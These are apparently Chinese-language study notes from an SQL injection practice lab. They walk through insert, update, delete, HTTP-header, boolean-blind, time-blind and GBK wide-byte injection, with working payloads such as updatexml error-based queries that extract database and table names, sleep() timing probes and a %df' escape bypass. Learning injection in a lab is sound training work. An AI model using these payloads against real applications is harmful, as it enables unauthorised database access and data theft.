## 1.insert/update注入

​	insert型注入，insert是数据库插入数据的语句，创建账号时使用，update在更新账号时使用。

​	可能会是insert into table_name (列1, 列2,...) values(值1, 值2,....) ，update语句可能是 update 表名称 set 列名称 = 新值 where 列名称 = 某值 。

### insert注入

​	开始尝试闭合，尝试)'

​	出现

	根据返回报错判断insert结构应该为insert into table_name ('','','','','','') 6个组

尝试恢复

```
username=1','','','','','')#&password=1&sex=1&phonenum=1&email=1&add=1&submit=submit
```



恢复成功了。	

其实也可以从其中有6个空，推断出来，还不行就一个一个试。



​	开始注入吧，因为这个注册界面没有回显语句，所以采用报错注入，爆出数据库名

```
username=0'or updatexml(1,concat(0x7e,(select database()),0x7e),1)or','','','','','')#
```



爆出表名

```
username= 0' or updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,31),0x7e),1) or ','','','','','')#&password=007&sex=&phonenum=&email=&add=&submit=submit
```



```
爆数据库
 username=0'or updatexml(1,concat(0x7e,(select database()),0x7e),1)or','','','','','')#
 爆表名
 username= 0' or updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()\),1,31),0x7e),1) or ','','','','','')#
```

| 函数 | 写法 | 特点 |
| --- | --- | --- |
| updatexml | updatexml(1, concat(0x7e, 子查询, 0x7e), 1) | 三个参数，靶场里很常见 |
| extractvalue | extractvalue(1, concat(0x7e, 子查询, 0x7e)) | 两个参数，更短一点 |

这两个函数作用一样可以互换。

### update注入 🤣👌

构造闭合



可以看出时single quote闭合

开始注入

​	修改信息时注入，在post的内容中注入



其余的步骤和update型一样

## 2."delete"注入

​	本质为get注入，在delete过程中修改get请求，修改参数。

抓包看一下。



不难看出是个数字型，直接上and 1=2，尝试注入。

```
?id=71+and+1=2
```



注入成功了！

注意一点，如果加号处改为使用空格会导致服务器报错。

```
?id=71 and 1=2
```



由于这个界面没有回显，我们使用报错注入。

```sql
?id=71+and+updatexml(1,concat(0x7e,(select+database(),0x7e),1)
```



剩下的与insert注入相同。

## 3.http header 注入

可以直接用sqlmap扫 

在ua处插入：

```
	'or updatexml(1,concat(0x7e,(select database()),0x7e),1) or '
```



其余同上。

## 4.盲注

### 布尔盲注：

 页面不直接返回数据库内容，也不报错，只能通过“页面正常 / 不正常”两种状态来判断 SQL 条件是真还是假。

使用and连接，前后全为真才能是真。

```
?name=kobe'+and+1=2--+
```


```
?name=kobe'+and+1=1--+
```


通过界面反应，判断注入是否成功

| 函数                  | 作用                | 示例                                              |
| --------------------- | ------------------- | ------------------------------------------------- |
| length()              | 判断字符串长度      | length(database())                                |
| substr(str, pos, len) | 截取字符串          | substr(database(),1,1)字符串, 起始位置, 截取长度) |
| ascii()               | 把字符转成 ASCII 码 | ascii(substr(database(),1,1))                     |


### 时间盲注：

 无论输入什么页面都没有变化，可以使用时间盲注来用页面反应时间来判断是否有无注入点。
 函数：sleep(n),n为沉睡秒数。
 and连接，前后全为真才为真。

```
`kobe'+and+sleep(5)+and+(length(database()))>5--+`
```

 

盲注需要使用工具来帮助，或者脚本，需要挨个确定数据的准许信息，因为界面没有回显语句。

可以使用sqlmap

## 5.宽字节反义

 kobe%df' or 1=1 --+

### 构造闭合*%df'*

 （1）宽字节注入使用条件是：PHP 发送请求到 MySQL 时使用了语句 SET NAMES 'gbk' 或是set character_set_client =gbk 进行了一次编码
 （2）宽字节注入的使用原因是：单引号、双引号等特殊字符被转义
 （3）宽字节注入的原理是：当转义使用的 \ 为 ASCII 编码，而客户端传入的参数被当成 GBK 等宽字节编码，则可以通过在 \ 之前插入一个十六进制字节（ASCII码要大于128，才到汉字的范围）来让 MySQL 以为插入的字节和 \ 是一个中文字符，从而吃掉 \ ，摧毁转义
 这个好像只能绕过来显示账号


